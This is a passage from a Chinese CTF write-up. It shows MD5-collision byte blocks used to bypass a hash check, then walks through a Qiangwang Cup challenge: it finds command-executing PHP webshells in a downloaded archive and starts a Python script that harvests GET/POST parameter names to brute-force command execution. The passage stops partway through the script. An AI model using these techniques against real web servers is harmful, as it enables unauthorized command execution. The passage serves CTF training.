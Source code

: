 ```
d131dd02c5e6eec4693d9a0698aff95c
2fcab58712467eab4004583eb8fb7f89
55ad340609f4b30283e488832571415a
085125e8f7cdc99fd91dbdf280373c5b
d8823e3156348f5bae6dacd436c919c6
dd53e2b487da03fd02396306d248cda0
e99f33420f577ee8ce54b67080a80d1e
c69821bcb6a8839396f9652b6ff72a70

d131dd02c5e6eec4693d9a0698aff95c
2fcab50712467eab4004583eb8fb7f89
55ad340609f4b30283e4888325f1415a
085125e8f7cdc99fd91dbd7280373c5b
d8823e3156348f5bae6dacd436c919c6
dd53e23487da03fd02396306d248cda0
e99f33420f577ee8ce54b67080280d1e
c69821bcb6a8839396f965ab6ff72a70

两段数据的MD5均为：
79054025255fb1a26e4bc422aef54eb4


```

这里采用第一个方法获得Flag：

<img src="https://img-blog.csdnimg.cn/20200821191645631.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 【补充】如果说后台的判断语句如下，则只能用第二种方法进行绕过：

<img src="https://img-blog.csdnimg.cn/20200821192551303.png#pic_center" alt="在这里插入图片描述">

### No.5 强网杯-Py脚本找Webshell

1、创建并访问靶机：

<img src="https://img-blog.csdnimg.cn/202008181723476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20200818172407827.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

2、根据题目提示，访问并下载 www.tar.gz：

<img src="https://img-blog.csdnimg.cn/20200818172513555.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20200818172611452.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 打开压缩包，发现有3000多个php文件，尝试搜索flag文件，未果。于是打开php文件进行代码审计，发现代码中存在大量使用 `system()/eval()/assert()` 等函数执行 get 或 post 传递的参数，这意味我们也许可以通过传递参数的方式来执行任意命令。

<img src="https://img-blog.csdnimg.cn/20200818174753446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

尝试直接在URL构造语句尝试传递参数，页面无法返回正确的输出结果。由于php文件过多和每个文件的参数过多，因此需要编写一个脚本来进行爆破，找出行之有效的参数。

3、此处附上大佬的 Python 自动化脚本：

```
# -*- coding: utf8 -*-
import os
import requests
import re
import time
import io
 
def read_file(path, command):  #遍历文件找出所有可用的参数
    with io.open(path,encoding="utf-8") as file:
        f = file.read()
    params = {}
    pattern = re.compile("(?&lt;=\$_GET\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
        params[name] = command
 
    data = {}
    pattern = re.compile("(?&lt;=\$_POST\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
```
